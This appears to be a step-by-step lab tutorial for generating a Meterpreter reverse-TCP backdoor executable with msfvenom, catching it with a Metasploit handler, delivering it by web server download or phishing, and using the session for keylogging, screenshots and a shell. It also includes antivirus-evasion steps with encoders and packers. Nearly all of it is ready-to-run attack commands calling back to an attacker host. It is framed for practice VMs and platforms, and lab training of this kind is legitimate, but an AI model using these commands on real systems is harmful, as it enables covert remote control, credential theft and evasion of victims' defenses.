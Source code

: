 ## What You Need

* A **Kali Linux** or **Parrot OS** attacker machine with Metasploit
* A **Windows VM** (e.g., Windows 10 or 7) as the victim
* Network connection between attacker and victim (host-only or NAT)



## Step 1: Generate the Backdoor (Payload)

On Kali:

```bash
msfvenom --payload windows/meterpreter/reverse_tcp --list-options

To list options to set
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_KALI_IP LPORT=4444 -f exe -o backdoor.exe
```

**Explanation:**

* `-p`: Payload type (reverse shell with Meterpreter)
* `LHOST`: Your Kali Linux IP (listener)
* `LPORT`: Port you want the victim to connect back to
* `-f`: Format (`exe` for Windows)
* `-o`: Output file name

This creates a malicious `.exe` file that connects back to your machine.



## Step 2: Set Up the Listener (Metasploit Handler)

Launch Metasploit:

```bash
msfconsole
```

Configure listener:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_KALI_IP
set LPORT 4444
set ExitOnSession false
exploit -j
```

Metasploit will now **listen** for incoming reverse shell connections.



## Step 3: Deliver the Payload

Transfer the `backdoor.exe` to your **Windows victim**. You can do this via:

* USB (in a lab)
* Social engineering simulation (phishing)
* File sharing (Python web server, SMB, etc.)

Example (start web server in Kali):

```bash
python3 -m http.server 8000
```

Then, download from Windows:

```powershell
Invoke-WebRequest -Uri http://KALI_IP:8000/backdoor.exe -OutFile C:\Users\Public\backdoor.exe
```



## Step 4: Execute the Payload

On the victim system, run `backdoor.exe`.

As soon as it’s executed, you should get a **Meterpreter session** on your Kali terminal:

```
[*] Meterpreter session 1 opened
```



## Step 5: Interact with the Victim

Inside Meterpreter:

```bash
sysinfo              # View system info
getuid               # Get user ID
shell                # Open command prompt
keyscan_start        # Start keylogger
screenshot           # Take a screenshot
```



## Bypass Antivirus (Obfuscation)

Basic payloads are often caught by antivirus. You can:

* Use **encoders**:

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o bypass.exe
  ```

* Use **packers** or **obfuscation** tools like:

  * `Veil Framework`
  * `Shellter`
  * `MSFvenom Payload Creator (msfpc)`




Try it on:

* **Metasploitable Windows VMs**
* **TryHackMe Rooms** like *Windows Privilege Escalation*, *Phishing*, etc.
* **HackTheBox** machines
